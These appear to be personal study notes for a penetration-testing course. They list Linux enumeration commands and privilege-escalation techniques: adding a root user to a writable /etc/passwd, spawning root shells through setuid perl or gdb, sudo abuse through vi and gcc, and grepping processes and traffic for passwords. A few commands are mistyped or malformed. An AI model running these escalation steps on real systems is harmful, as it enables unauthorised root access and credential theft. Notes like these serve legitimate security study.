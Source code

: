 ## Section 1 Enumerating Linux
### 16.1.2 Manual Enumeration
- To find writable directories use 
```
find / -writable -type d 2>/dev/null
```
- To list all mounted filesystems and drives mounted at boot time use
```
cat /etc/fstab
```
- Find firewall rules with 
```
cat /etc/iptables/rules.v4
```
- Get cronjobs with 
```
ls -lah /etc/cron*
```
- View current jobs with 
```
crontab -l
```
- List installed packages with 
```
dpkg -l
```
- View all available disks with
```
lsblk
```
- Enumerate loaded drivers and kernel modules with 
```
lsmod
```
- Find SUID marked binaries with 
```
find / -perm -u=s -type f 2>/dev/null
```
## Section 2 Exposed Confidential Information
### 17.2.1 Inspecting User Trails 
- Check sudo privileges with 
```
sudl -l
```
- The following command takes you directly to the root user
```
sudo -i
```
### 17.2.2 Inspecting Service Footprints 
- Watch processes for any occurrance of the word pass= with
```
watch -n 1 "ps -aux | grep pass"
```
- Capture traffic looking for the word pass with 
```
sudo tcpdump -i lo -A | grep "pass"
```
## Section 3
### 17.3.1 Abusing Cron Jobs 
- Look for running cron jobs with 
```
grep "CRON" /var/log/syslog
```
### 17.3.2 Abusing Password Authentication
- If /etc/passwd is writable use 
```
openssl passwd w00t
```
- THEN
```
echo "root2:OUTPUT:0:0:root:/root:/bin/bash" >> /etc/passwd
```
## Section 4 Insecure System Components 
### 17.4.1 Abusing Setuid Binaries and Capabilities 
- usethe following to find binaries with setuid enabled 
	- What you are looking for is setuid +ep 
```
/usr/sbin/getcap -r / 2>/dev/null
```
- IF the binary was found use the following 
```
/home/<USER>/Desktop -exec "/usr/bin/bash" -p \;
```
- IF the binary was in perl use
```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
- To abuse gdb with setuid enabled use 
```
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!sh' -ex quit
```
### 17.4.2 Abusing Sudo
- Use gtfobins for everything else 
- from vi or vim you can use the following and maybe get a shell after hitting the esc key 
```
!/bin/sh
```
- Abuse sudo with gcc using
```
gcc -wrapper /bin/sh,-s .
```
### 17.4.3 Exploiting Kernel Vulnerabilities
- Get Linux release with 
```
cat /etc/issue
```
```
uname -r
```
```
arch
```
- Cron jobs can also be found in 
```
/var/log/cron.log
```
## Exercises To-Do

- [ ] 2.1.1 (page 20)